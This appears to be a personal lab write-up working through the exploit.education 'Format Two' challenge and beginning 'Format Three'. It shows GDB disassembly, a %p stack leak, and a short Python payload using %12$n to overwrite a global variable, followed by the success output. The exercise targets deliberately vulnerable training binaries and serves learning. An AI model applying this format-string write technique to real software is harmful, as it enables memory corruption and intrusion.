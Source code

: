 Ahhhh ok. So this is getting harder. I had to check where global are stored because theres nothing in the stack
to see how we can change this with anything done previous. I think what we are looking for is writing to arbitrary
memory locations. 

```asm
   0x5655626f <+107>:	call   0x56556090 <strncpy@plt>
   0x56556274 <+112>:	add    $0x10,%esp
   0x56556277 <+115>:	sub    $0xc,%esp
   0x5655627a <+118>:	lea    -0x118(%ebp),%eax
--Type <RET> for more, q to quit, c to continue without paging--c
   0x56556280 <+124>:	push   %eax
   c <+125>:	call   0x565561dd <bounce>
   0x56556286 <+130>:	add    $0x10,%esp
   0x56556289 <+133>:	mov    0x44(%ebx),%eax				<====== ebx+44
   0x5655628f <+139>:	test   %eax,%eax
   0x56556291 <+141>:	je     0x565562a7 <main+163>
```
okay so this is the snippet of code just before and after the check of the global
 set a breakpoint so we can check the value of changme/location:
```bash
$ objdump -t f2 | grep changeme
0000400c g     O .bss	00000004              changeme
```
And trying this we can find our argument on the stack: 

```
$ ./f2 %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
Welcome to Format Two, brought to you by https://exploit.education
0xffffd100.0x3.0x565561e9.0xffffd210.0x56558fc8.0xffffd1f8.0x56556286.0xffffd0e0.0xffffd46b.0x100.0x5655621f.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70Better luck next time!
```

Okay so 12th argument hits our input, lets craft a payload 

```python
payload = p32(0x5655900c) # Address of changeme at runtime using GDB
payload += b'\x90'*12
payload += b'%12$n'
open('payload_f2','wb').write(payload)
```
And then inside GDB and pausing at main+133 we see:
```
gef➤  x/12w $ebx+0x44
0x5655900c <changeme>:	0x10	0x0	0x0	0x0
0x5655901c:	0x0	0x0	0x0	0x0
0x5655902c:	0x0	0x0	0x0	0x0
```
**We changed it!** 
```
�UV������������Well done, the 'changeme' variable has been changed correctly!
[Inferior 1 (process 1964008) exited normally]
```
# Format Three
Okay so lets find the global:
```
$ objdump -t f3 | grep changeme
0000400c g     O .bss	00000004              changeme
```
Great same location. What about the code being exploited:
```C
int changeme;

void bounce(char *str) {
  printf(str);
```